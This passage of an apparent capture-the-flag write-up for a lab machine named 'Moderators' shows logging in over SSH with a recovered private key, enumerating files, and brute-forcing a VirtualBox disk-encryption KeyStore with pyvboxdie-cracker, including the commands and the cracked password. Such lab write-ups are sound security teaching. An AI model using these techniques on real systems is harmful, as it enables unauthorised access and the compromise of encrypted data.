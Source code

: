 Copy the private key and re-format it, myself I use [samltool.com](https://www.samltool.com/format_privatekey.php) for this purpose. 

```bash
➜  moderators vim john-id_rsa 
➜  moderators chmod 400 john-id_rsa               
➜  moderators ssh john@10.10.11.173 -i john-id_rsa
john@moderators:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),1002(moderators)
```

Doing some manual enumeration as `john` we find internal conversation logs talking about password policies and vbox etc:
```bash
john@moderators:~/stuff/exp$ strings *
```

We find the encrypted _.vdi_ as well as the informational _.vbox_ files:
```bash
john@moderators:~/stuff/VBOX$ ls -al
total 118800
drwxr-xr-x 2 john john      4096 Jul 14 10:50 .
drwxr-xr-x 4 john john      4096 Jul 14 10:50 ..
-rwxr-xr-x 1 john john      5705 Sep 18  2020 2019-08-01.vbox
-rwxr-xr-x 1 john john 121634816 Sep 18  2020 2019.vdi

john@moderators:~/stuff/VBOX$ cat 2019-08-01.vbox
[... snip ...]
<VirtualBox xmlns="http://www.virtualbox.org/" version="1.16-windows">
  <Machine uuid="{528b3540-b8be-4677-b43f-7f4969137747}" name="Moderator 1" OSType="Ubuntu_64" snapshotFolder="Snapshots" lastStateChange="2021-09-15T16:44:57Z">
    <MediaRegistry>
      <HardDisks>
        <HardDisk uuid="{12b147da-5b2d-471f-9e32-a32b1517ff4b}" location="F:/2019.vdi" format="VDI" type="Normal">
          <Property name="CRYPT/KeyId" value="Moderator 1"/>
          <Property name="CRYPT/KeyStore" value="U0NORQABQUVTLVhUUzI1Ni1QTEFJTjY0AAAAAAAAAAAAAAAAAABQQktERjItU0hB&#13;&#10;MjU2AAAAAAAAAAAAAAAAAAAAAAAAAEAAAABUQgV7yASjqRRgfezqVXSqcDjNzg1J&#13;&#10;jH/ENK/ozVskTyAAAADpYIvN2MBwhohZoxyfHl5d6YterYwh8lwMQ+5peBbjLCBO&#13;&#10;AABUYpGmB0lDsJbqgNsq451Bed5tHD8X6iXWLmJ6v6f7y2A9CABAAAAAo4alQy6T&#13;&#10;jyDI+8mvRgp4wXkMGavRxR6cC+ckk5yUgVhhgPxKNBNdhIHkNtjBMrj0uaVQ3ksk&#13;&#10;gwC6MrGLZFhl1g=="/>
```

The KeyStore seems interesting, and investigating we quickly find that we can crack it using [pyvboxdie-cracker](https://github.com/axcheron/pyvboxdie-cracker):
```bash
➜  pyvboxdie-cracker git:(master) ✗ python3 pyvboxdie-cracker.py -v /htb/moderators/2019-08-01.vbox -d wordlist.txt                   
Starting pyvboxdie-cracker...

[*] Encrypted drive found :  F:/2019.vdi
[*] KeyStore information...
	Algorithm = AES-XTS256-PLAIN64
	Hash = PBKDF2-SHA256
	Final Hash = 5442057bc804a3a914607decea5574aa7038cdce0d498c7fc434afe8cd5b244f

[*] Starting bruteforce...
	19 password tested...
	49 password tested...
	67 password tested...

[*] Password Found = computer
```
